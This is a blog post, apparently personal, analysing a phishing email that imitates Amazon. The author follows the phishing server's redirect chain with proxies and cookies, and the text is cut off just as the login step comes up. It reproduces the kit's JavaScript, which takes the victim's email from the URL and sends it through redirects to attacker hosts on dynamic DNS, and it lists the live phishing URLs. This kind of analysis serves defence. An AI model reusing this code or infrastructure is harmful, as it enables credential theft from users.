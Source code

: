 ```yaml
---
date: "2018-12-28"
title: "Phishing"
category: "Hacking"
---
```

![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/phishing.jpg)

Today I received an interesting phishing email.
<br />
I did the research and found out it's actually a good learning opportunity,
since attacker's server demonstrates excellent practice in network security.
<br />
Today's goal is to attack phishing server by mimicking victims.
<br />
### Email content
<b>TITLE:</b> RE: Wrn ,protect your sensitive data from unauthorized access
<br />
<b>FROM:</b> goer.vassaux05@ingame.de
<br />
![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/email.jpg)
<br />
As you can see, the attacker just attached a copy image to mimic Amazon site.
<br />

### Verification Process
#### Microservice
By clicking 'log in', the victim would be navigated to "http://karet1nagut4zinat2a.myvnc.com/Lzmvejr9/9VRl0.html?e=user@domain.com&A3zj864z4g4h=Yku8nhrrI24"
<br /> 
P.S. Before doing this, we need to set up proxies on Chrome and Postman since attacker's server will block client by IP address.
<br />
<br />
And the response is pure JavaScript code as following
```js
<script type="text/javascript">
function getUrlVars() {
var vars = {};
var parts = window.location.href.replace(/[?&]+([^=&]+)=([^&]*)/gi, function(m,key,value) {
vars[key] = value;
});
return vars;
}
var email = getUrlVars()["e"];

document.write('
    <script type="text/javascript" src="ip-email.php?email='+ email +'"><\/script>');



    </script>
    <script type="text/javascript">

window.location = 'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/XIUKBYXj/c.php?click=yes&acc=yes&data=6bdP07fjlZU&e=' + email;

</script>
```
> <b>This process seems redundant. Why does the server need an extra redirect logic ?</b>
<br />
Once you look at the redirect URL, you would find out the server is a microservice with auto-generated host name.

Such a beautiful design !!
<br />
The attacker leveraged 'serverless' concept and used that to avoid direct attack.
<br />
#### Cookie
After making GET request to the redirect server, I received an empty response.
But, I got 'Set-Cookie' key in the response header.
![alt text](https://storage.googleapis.com/warrenlee/myBlog/phishing/cookie.jpg)
> OK, I guess this is a typical security practice. Good Job, attacker.
<br />
Then we need to use this cookie to personate the victim in later requests.

By using 'Link Redirect Trace' Chrome extension, I found there should be one more redirect.
One GET request to 
'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/XIUKBYXj/6bdP07fjlZU/de/smart.html'
<br />
And then the response was
```js
<meta HTTP-EQUIV='REFRESH' content='0; url=/XIUKBYXj/6bdP07fjlZU/slsE7oEhpngamqHFQpNhvh7HJSAASj/do.html?id=FVtbYxvrAkxwH8DUr4b5ml5gCTccpJkrP6NlJxDo'>
```
> Hmmm...using meta tag to redirect to target URL

After redirect, I got
```html
<title>Amazon</title>
<link rel="shortcut icon" href="files-aws/favicon.ico" type="image/x-icon">
<frameset>
    <frame src="/2VC1vaJC/6bdP07fjlZU/F7QCiIcGJe85mphq3T0hQb2gETrByt/iframe.php">

    </frameset>
```
Making one more GET request to 'http://lertamer1iutyvab3kibratec2.hindusa7lozqebc4orbc.dynu.net/2VC1vaJC/6bdP07fjlZU/F7QCiIcGJe85mphq3T0hQb2gETrByt/iframe.php'

and I got
```html
<script type="text/javascript">
	if (parent.frames.length > 0){
        top.location.replace(document.location);
	}</script>
<meta HTTP-EQUIV="REFRESH" content="0; url=do.html.">
```

> I was thrilled by this result. Its about to make login request

#### Attack Server